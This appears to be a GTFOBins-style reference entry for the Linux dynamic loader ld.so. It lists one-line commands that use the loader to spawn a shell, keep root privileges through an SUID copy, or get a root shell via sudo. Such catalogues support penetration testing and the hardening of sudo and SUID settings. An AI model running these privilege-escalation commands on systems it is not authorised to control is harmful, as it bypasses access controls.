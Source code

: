 ```yaml
---
description: |
  `ld.so` is the Linux dynamic linker/loader, its filename and location might change across distributions. The proper path is can be obtained with:

  ```
  $ strings /proc/self/exe | head -1
  /lib64/ld-linux-x86-64.so.2
  ```
functions:
  shell:
    - code: /lib/ld.so /bin/sh
  suid:
    - code: ./ld.so /bin/sh -p
  sudo:
    - code: sudo /lib/ld.so /bin/sh
---
```

